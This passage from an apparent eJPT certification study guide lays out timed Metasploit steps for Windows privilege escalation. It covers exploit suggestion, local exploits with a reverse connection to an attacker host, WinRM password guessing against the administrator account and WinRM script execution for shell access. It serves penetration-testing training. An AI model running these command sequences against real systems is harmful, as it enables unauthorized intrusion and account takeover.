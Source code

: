 **Step-by-Step Approach:**
```bash
# Step 1: Background session and run suggester (3 minutes)
meterpreter > background
use post/multi/recon/local_exploit_suggester
set SESSION 1
exploit

# Step 2: Choose and execute exploit (4 minutes)
use exploit/windows/local/[suggested_exploit]
set SESSION 1
set LHOST attacker_ip
exploit

# Step 3: Verify elevated access (1 minute)
meterpreter > getuid
meterpreter > getprivs
```

#### **Scenario 3: WinRM Remote Privilege Escalation**
**Given:** Network access to Windows system with WinRM enabled
**Your Job:** Exploit WinRM service to gain administrative access
**Time Limit:** 10-12 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Discover WinRM service (2 minutes)
nmap -p 5985,5986 target_ip

# Step 2: Check authentication methods (1 minute)
use auxiliary/scanner/winrm/winrm_auth_methods  
set RHOSTS target_ip
exploit

# Step 3: Attack credentials (4 minutes)
use auxiliary/scanner/winrm/winrm_login
set RHOSTS target_ip
set USERNAME administrator
set PASSWORD [try common passwords]
exploit

# Step 4: Get shell access (3 minutes)
use exploit/windows/winrm/winrm_script_exec
set USERNAME found_username
set PASSWORD found_password
set FORCE_VBS true
exploit
```

### **📝 eJPT Exam Tips:**

#### **⏰ Time Management Strategy:**
- **1-2 minutes:** Initial privilege assessment and system enumeration
- **2-3 minutes:** Token impersonation attempt (fastest method)
- **3-4 minutes:** Automated exploit suggester if tokens unavailable
- **2-3 minutes:** Execute suggested privilege escalation exploit
- **1-2 minutes:** Verification and documentation of success
